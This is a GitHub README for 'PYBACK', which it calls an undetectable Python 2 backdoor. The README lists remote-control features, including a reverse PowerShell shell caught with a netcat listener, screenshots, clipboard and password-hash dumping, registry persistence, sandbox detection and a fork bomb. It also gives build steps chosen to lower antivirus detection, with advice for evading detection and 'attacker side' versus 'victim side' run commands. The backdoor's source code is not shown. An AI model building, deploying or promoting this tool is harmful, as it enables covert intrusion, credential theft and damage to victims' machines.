 # PYBACK
FUD cross-platform python2 backdoor  

# Features  
1-  Linux and windows post-exploitation enumeration  
2-  Run powershell commands and scripts  
3-  Spawn an independent powershell session to a remote machine (catch with netcat)  
4-  Screenshot  
5-  Check sandbox and VM (VM check only for windows, using wmi module)  
6-  Download/upload files  
7-  Dump clipboard  
8-  Run a fork bomb on victim machine, just for fun :)  
9-  Persistance using REGKEY (windows only)  
10- Client or server connection wait (one time only, no reconnecting yet)  
11- Dump hashes with ntds and reg save methods ( files should be manually downloaded ) 

# Usage
`pip install -r requirments.txt`  

to compile for windows install wmi with `pip install wmi`

tkinter most be installed by default, otherwise install it with:  
`apt install python-tk`  

pyinstaller will encrease the detection rate. use this version only:   
`pip install pyinstaller==3.1.1`  
`wine /root/.wine/drive_c/Python27/Scripts/pyinstaller.exe --onfile --noconsole  backdoor.py`  

change the port and ip or DNS in both listener.py and backdoor.py files.  

attacker side:  
`./listener.py`

victim side:  
`./backdoor.py`  


for a list of commnads type 'help' in the listener console when connected to the backdoor.   

# Tips

. to use upload functionality you should put the target file in the same directory as the listener.py file.  
. install rlwrap with `apt install rlwrap` and use `rlwrap ./listener.py` to have up and down arrow key for command cycling.  
. backdoor doesnt auto-activate the persistence module for better evation chance, if you want to change that simply uncomment the self.persistance() line in backdoor file.  
. the `enum` command results will be saved in the listener directory. to see colored output use `cat enum*.txt`  
. spawn function will run an FUD reverse powershell payload on victim machine, you can catch it with `rlwrap nc -nvlp [port]`  

# PoC  
  using pure python code:  
   
![Image description](https://github.com/7h3w4lk3r/pyback/blob/master/poc.png)  
  
  using pyinstaller version 3.1.1:  

![Image description](https://github.com/7h3w4lk3r/pyback/blob/master/image.png) 

  
# Contact  
Email: bl4ckr4z3r@gmail.com  
Telegram ID: @w4lk3r1998

